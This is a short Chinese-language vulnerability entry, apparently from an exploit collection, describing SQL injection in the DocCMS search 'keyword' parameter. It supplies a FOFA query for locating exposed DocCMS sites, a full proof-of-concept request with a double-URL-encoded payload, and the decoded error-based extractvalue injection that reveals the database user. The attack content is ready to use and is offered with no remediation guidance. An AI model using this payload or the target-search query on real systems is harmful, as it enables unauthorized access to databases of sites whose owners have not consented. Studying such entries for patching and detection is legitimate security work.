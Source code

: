 # DocCMS keyword SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
DocCMS
```

## FOFA

```
app="Doccms"
```

## 漏洞复现

CMS官网

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170903272.png)

验证POC

```plain
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170903242.png)

其中payload为下列语句的二次Url编码

```plain
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```